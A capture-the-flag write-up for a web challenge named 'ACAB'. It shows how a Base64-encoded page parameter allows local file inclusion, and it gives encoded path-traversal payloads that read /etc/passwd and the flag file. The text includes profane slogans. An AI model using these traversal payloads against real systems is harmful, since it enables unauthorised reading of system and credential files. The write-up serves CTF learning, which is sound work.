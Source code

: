 # ACAB

- Author: rootkids
- http://minictf.ucs.or.id:1312

```
ACAB!!!!!!!!!! this shit is going crazyyy!!
```

![](image.png)

Try navigating to another page:

![](image-1.png)

See the URL?

```
http://minictf.ucs.or.id:1312/?page=YWJvdXQucGhw
```

The page path is encoded in Base64.

```
$ echo "YWJvdXQucGhw" | base64 -d
about.php
```

What if we specify a custom path?

```
$ echo "omaga" | base64
b21hZ2EK
```

![](image-2.png)

Ohh... nice! A Local File Inclusion (LFI) vulnerability.

Try catting passwd?

```
$ printf "../../../../etc/passwd" | base64
Li4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![](image-3.png)

What if...

```
$ printf "../../../../flag.txt" | base64
Li4vLi4vLi4vLi4vZmxhZy50eHQ=
```

![](image-4.png)

Flag:

```
UCS{ACAB!!!_pr4y_f0r_0ur_c0untry_Th1s_sH1t_Happened_1s_G0ing_Crazy!!}
```

Btw, #ACAB.
